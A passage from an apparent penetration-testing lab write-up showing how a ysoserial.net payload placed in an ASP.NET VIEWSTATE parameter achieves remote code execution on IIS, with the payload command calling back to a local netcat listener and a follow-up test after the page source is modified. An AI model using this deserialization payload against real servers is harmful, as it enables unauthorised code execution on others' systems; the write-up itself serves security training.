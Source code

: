 Lets generate a payload using **ysoserial.net** and put it into the viewstate parameter. The payload will perform a simple HTTP request, since this is the appropriate approach before trying more specific RCE payloads
```bash
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://127.0.0.1:9000/abcdabcdabcd"
```

We can see that the netcat listener received a request from Windows Powershell:
```bash
nc -lvnp 9000
```

The server response contains the 500 error code; Howeverm powershell is executed. Using the Process Hacker tool we can confirm that indeed IIS spawned the powershell process

> We have achieved RCE via .NET VIEWSTATE deserialization


#### 2nd test - The .cs file was modified

![Alt text](/assets/images/posts/ewptx/32.png){: .align-center}

we can now see in BURP that VIEWSTATE parameter is no longer present in the website requests

- But if we add the viewstate parameter anyway, the code execution still works

![Alt text](/assets/images/posts/ewptx/33.png){: .align-center}
